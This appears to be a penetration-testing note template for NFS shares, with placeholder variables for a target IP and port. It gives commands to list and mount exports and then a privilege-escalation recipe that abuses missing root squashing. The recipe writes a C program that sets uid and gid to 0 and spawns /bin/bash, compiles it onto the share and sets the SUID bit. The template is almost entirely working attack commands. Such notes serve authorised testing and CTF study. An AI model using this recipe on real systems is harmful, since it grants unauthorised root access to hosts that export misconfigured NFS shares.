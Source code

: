# NFS - <% tp.frontmatter.current_port %>

### Show available mounts
```bash
showmount -e <% tp.frontmatter.target_ip %>
```

### Mount 
```bash
sudo mount -t nfs -o nolock,nfsvers=3 <% tp.frontmatter.target_ip %>:/<target_share> <local_folder>
```

### No Root squashing
This sometimes works to escalate privileges 

Create `.c` file
```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > ./x.c
```

compile and save to mounted drive
```bash
sudo gcc ./x.c -o <mount/location>/x
```

```bash
sudo chmod +s </mount/location>/x
```

